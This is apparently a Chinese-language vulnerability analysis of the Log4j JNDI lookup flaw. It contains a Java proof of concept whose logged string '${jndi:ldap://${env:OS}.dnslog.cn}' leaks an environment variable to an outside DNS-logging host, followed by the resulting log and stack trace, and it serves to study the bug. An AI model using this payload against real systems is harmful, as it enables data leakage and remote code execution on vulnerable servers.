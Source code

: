 漏洞POC:

```
public class demo {
    static Logger logger = LogManager.getLogger(LogManager.ROOT_LOGGER_NAME);

    public static void main(String[] args) {
        String poc = "${jndi:ldap://${env:OS}.dnslog.cn}";
        logger.info("{}", poc);
    }
}

```



![image-20211221165044511](https://cdn.jsdelivr.net/gh/SummerSec/Images/49u4249ec49u4249ec.png)

### 漏洞分析

下面是这个漏洞触发的堆栈，分析漏洞触发的堆栈可以看出在哪触发的漏洞。

![image-20211221165729926](https://cdn.jsdelivr.net/gh/SummerSec/Images/43u4243ec43u4243ec.png)

可以发现0-11行是InitialContext.lookup触发JNDI漏洞的方式，可以直接删除。38-45行是spi接口转化也可以直接删除掉。
```
2021-12-21 16:02:40,406 main WARN Error looking up JNDI resource [ldap://Windows_NT.0cat.a0z7tw.0o0.run]. javax.naming.CommunicationException: Windows_NT.run:389 [Root exception is java.net.ConnectException: Connection refused: connect]
	at com.sun.jndi.ldap.Connection.<init>(Connection.java:226)
	at com.sun.jndi.ldap.LdapClient.<init>(LdapClient.java:137)
	at com.sun.jndi.ldap.LdapClient.getInstance(LdapClient.java:1614)
	at com.sun.jndi.ldap.LdapCtx.connect(LdapCtx.java:2746)
	at com.sun.jndi.ldap.LdapCtx.<init>(LdapCtx.java:319)
	at com.sun.jndi.url.ldap.ldapURLContextFactory.getUsingURLIgnoreRootDN(ldapURLContextFactory.java:60)
	at com.sun.jndi.url.ldap.ldapURLContext.getRootURLContext(ldapURLContext.java:61)
	at com.sun.jndi.toolkit.url.GenericURLContext.lookup(GenericURLContext.java:202)
	at com.sun.jndi.url.ldap.ldapURLContext.lookup(ldapURLContext.java:94)
	at javax.naming.InitialContext.lookup(InitialContext.java:417)
	at org.apache.logging.log4j.core.net.JndiManager.lookup(JndiManager.java:172)
	at org.apache.logging.log4j.core.lookup.JndiLookup.lookup(JndiLookup.java:56)
	at org.apache.logging.log4j.core.lookup.Interpolator.lookup(Interpolator.java:223)
	at org.apache.logging.log4j.core.lookup.StrSubstitutor.resolveVariable(StrSubstitutor.java:1116)
	at org.apache.logging.log4j.core.lookup.StrSubstitutor.substitute(StrSubstitutor.java:1038)
	at org.apache.logging.log4j.core.lookup.StrSubstitutor.substitute(StrSubstitutor.java:912)
	at org.apache.logging.log4j.core.lookup.StrSubstitutor.replace(StrSubstitutor.java:467)
	at org.apache.logging.log4j.core.pattern.MessagePatternConverter.format(MessagePatternConverter.java:132)
	at org.apache.logging.log4j.core.pattern.PatternFormatter.format(PatternFormatter.java:38)
	at org.apache.logging.log4j.core.layout.PatternLayout$PatternSerializer.toSerializable(PatternLayout.java:345)
	at org.apache.logging.log4j.core.layout.PatternLayout.toText(PatternLayout.java:244)
	at org.apache.logging.log4j.core.layout.PatternLayout.encode(PatternLayout.java:229)
	at org.apache.logging.log4j.core.layout.PatternLayout.encode(PatternLayout.java:59)
	at org.apache.logging.log4j.core.appender.AbstractOutputStreamAppender.directEncodeEvent(AbstractOutputStreamAppender.java:197)
	at org.apache.logging.log4j.core.appender.AbstractOutputStreamAppender.tryAppend(AbstractOutputStreamAppender.java:190)
	at org.apache.logging.log4j.core.appender.AbstractOutputStreamAppender.append(AbstractOutputStreamAppender.java:181)
	at org.apache.logging.log4j.core.config.AppenderControl.tryCallAppender(AppenderControl.java:156)
	at org.apache.logging.log4j.core.config.AppenderControl.callAppender0(AppenderControl.java:129)
```